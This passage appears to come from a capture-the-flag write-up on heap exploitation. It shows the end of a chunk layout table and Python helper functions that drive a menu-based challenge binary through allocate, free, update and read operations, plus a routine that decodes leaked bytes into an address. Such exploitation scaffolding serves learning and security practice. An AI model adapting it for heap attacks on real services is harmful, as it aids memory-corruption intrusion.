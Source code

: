 | Chunk7      | 0x500 | Go in unsorted bin | Free      |
| Chunk8      | 0x10  | Barrier chunk      | Allocated |
| Chunk9      | 0x10  | Barrier chunk      | Allocated |

Here is some of the helper functions that I've created to interact with the binary seamlessly:

```python
    def create(idx, ksize, key, vsize, val):
        print(r.clean(timeout=timeout).decode())
        r.sendline(b'1')
        print(r.clean(timeout=timeout).decode())
        r.sendline(str(idx).encode())
        print(r.clean(timeout=timeout).decode())
        r.sendline(str(ksize).encode())
        print(r.clean(timeout=timeout).decode())
        r.sendline(key)
        print(r.clean(timeout=timeout).decode())
        r.sendline(str(vsize).encode())
        print(r.clean(timeout=timeout).decode())
        r.sendline(val)

    def free(idx):
        print(r.clean(timeout=timeout).decode())
        r.sendline(b'4')
        print(r.clean(timeout=timeout).decode())
        r.sendline(str(idx).encode())

    def update(idx, val):
        print(r.clean(timeout=timeout).decode())
        r.sendline(b'2')
        print(r.clean(timeout=timeout).decode())
        r.sendline(str(idx).encode())
        print(r.clean(timeout=timeout).decode())
        r.sendline(val)

    def read(idx):
        print(r.clean(timeout=timeout).decode())
        r.sendline(b'3')
        print(r.clean(timeout=timeout).decode())
        r.sendline(str(idx).encode())
        return r.clean(timeout=1)

    def depart():
        print(r.clean(timeout=timeout).decode())
        r.sendline(b'5')

    def custom_u64(leaked_bytes):
        leak = 0
        counter = 0
        while leaked_bytes != '':
            if leaked_bytes.startswith('\\'):
                leak += int(leaked_bytes[2:4], 16) << (8 * counter)
                leaked_bytes = leaked_bytes[4:]
            else:
                leak += ord(leaked_bytes[0]) << (8 * counter)
                leaked_bytes = leaked_bytes[1:]

            counter += 1
        return leak
```
